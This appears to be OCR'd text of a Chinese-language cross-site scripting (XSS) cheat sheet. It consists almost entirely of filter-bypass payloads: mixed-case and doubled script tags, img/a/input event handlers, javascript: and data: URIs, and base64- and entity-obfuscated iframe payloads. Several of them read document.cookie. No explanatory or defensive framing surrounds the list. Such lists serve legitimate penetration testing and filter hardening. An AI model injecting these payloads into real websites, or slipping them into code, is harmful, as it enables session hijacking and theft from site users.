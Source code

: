 ```
<ScRipT>ALert('XSS')</ScRiPt>
<script>ALert(1)</script>
<sCrIpT>ALert(1)</sCrIpT>
<ScRiPt>ALert(1)</ScRiPt>
<sCrIpT>ALert(1)</ScRiPt>
<ScRiPt>ALert(1)</sCrIpT>

<img src=1 onerror=alert(1)>
<iMg src=1 oNeRrOr=alert(1)>
<ImG src=1 OnErRoR=alert(1)>
<img src=1 onerror="alert(&quot;M&quot;)">

<marquee onscroll=alert(1)>//失效
<mArQuEe OnScRoLl=alert(1)>
<MaRqUeE oNsCrOlL=alert(1)>

```

**双写**

```
'"><scr<script>ipt>alert(123);</scr</script>ipt>
<sc<script>ript>alert('hello')</script>
```

**其它标签绕过**

img等

```html
<img src=## onerror=alert(document.cookie)>
<img src="#" onerror=alert('hello')>
<img src=123 onerror=alert('hello')>
<img src="#" οnerrοr=alert('hello')>//字母“o”是希腊字母，无效
'"><img src="#" onerror="alert('hello')">
```

a

```
<a onmouseover=alert(document.cookie)>请点击</a>
" ><a href=javascript:alert(123)>请点击</a>
```

input

```
onfocus=javascript:alert(123)
```

iframe

```
<iframe src=javascript:alert(1)></iframe>
<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>
<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>
<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>
<iframe src=https://baidu.com width=1366 height=768></iframe>
<iframe src=javascript:alert(1) width=1366 height=768></iframe
```
